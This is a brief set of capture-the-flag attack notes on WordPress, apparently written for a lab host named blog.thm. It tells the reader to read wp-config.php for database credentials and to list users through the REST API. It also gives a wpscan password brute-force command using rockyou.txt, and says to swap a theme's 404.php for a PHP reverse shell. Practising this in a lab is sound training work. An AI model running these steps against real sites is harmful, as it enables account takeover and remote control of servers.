 # Info 
Popular Blog CMS

check website location (`/var/www/html/wordpress`) for config file for database login information. `wp-config.php` 

---

# wpscan

Find Users with built in API
```txt
http://blog.thm/wp-json/wp/v2/users
```


bruteforce login
```bash
wpscan --url http://blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```


Appearance > Edit > Themes
1. 404.php
2. replace with php reverse shell

